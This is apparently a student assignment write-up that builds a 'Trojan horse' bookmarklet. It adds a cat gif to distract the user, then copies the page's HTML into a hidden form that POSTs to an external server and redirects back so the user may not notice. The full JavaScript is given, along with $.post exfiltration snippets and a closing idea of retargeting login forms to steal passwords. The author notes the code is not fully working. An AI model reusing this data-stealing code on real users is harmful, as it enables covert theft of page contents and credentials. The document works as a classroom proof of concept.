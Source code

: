 # Assignment 2: Bookmarklet
Make a bookmarklet that works against the user.

I wanted to try creating a proof of concept for a malicious bookmarklet, that gathers up the data on the page and sends is to an external server.  I'll package it up with a cute distraction, to make it a very simple variation on the classic Trojan Horse (inspired by [Bonzi Buddy](http://malware.wikia.com/wiki/BonziBUDDY)) 

So our bookmarklet can start out by adding a cute cat gif to the page, "improving" the browsing experience.

The simplest way to do this would be

    $.post(externalUrl, $('body').html,
	     function(data){
		     alert("im in ur webnets, stealin ur data");
     });
But we'll quickly run into complications related to CORS which we can't easily solve.

Instead, I tried using a more traditional HTML form that POSTS to an external URL.

    $('body').append("<form id='evil' action='"+url+"' method='post'>
    <input name='bodyHtml' type='hidden' value='"+bodyHtml+"'>
    <input name='redirectUrl' type='hidden' value='testurl'>
    <input type='submit'>
    </form>");
The submit button is not really necessary but is useful for debugging.

This creates an HTML form with the current page's contents as a hidden input field. It also puts the current URL as one of the fields, so our malicious server knows where to send the user back to after ingesting the stolen data, so that the user may not even notice that they've left their intended page, visited a malicious server, and gone back to where they started. Because we're using a traditional HTML form, we will need to actually leave the current page when we POST the data. But we can cover that up easy enough...

After a delay, we can then submit the form

    $('#evil').submit();

 
This is not entirely functional yet, I think I am running into trouble with escaping quote characters when setting the form input to the bodyHtml. Need to play around with some regex to do this better.

       function injectJquery(callback) {
      if (window.jQuery) {
        return callback(window.jQuery);
      }
      let script = document.createElement('script');
      script.setAttribute(
        'src',
        '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js'
      );
      script.onload = () => callback(window.jQuery);
      script.onerror = e => alert('The script failed to load: ' + e);
      document.head.appendChild(script);
    }
    
    var catGifs = ['http://www.catgifpage.com/gifs/325.gif','https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif','https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif']
    
    injectJquery(function($) {
      var catGif = catGifs[Math.floor(Math.random()*catGifs.length)];
      $('body').prepend("<img src='"+catGif+"'>");
      
      var url = "http://calebcalebcaleb.com/playback.php";
      // A good old fashioned Trojan Horse
      //Activating this bookmarklet will add a cute cat gif to the page. 
      //It will also exfiltrate the contents of the current page and send it to an external server.
      var bodyHtml = encodeURIComponent($('body').html());
      
      $('body').append("<form id='evil' action='"+url+"' method='POST'><input name='bodyHtml' type='hidden' value='"+bodyHtml+"'><input name='redirectUrl' type='hidden' value='"+url+"'><input type='submit'></form>");
      
    
      
      
    });


  
An alternative solution, similarly malicious but perhaps more elegant, would be to search for existing forms on the page (like a login form) and change its destination URL to a server I control. This would be less obtrusive/detectable for the user, and possibly be more efficient at swiping useful data (like passwords).

But I don't want to get too into making malicious software... the world doesn't need any more of that!
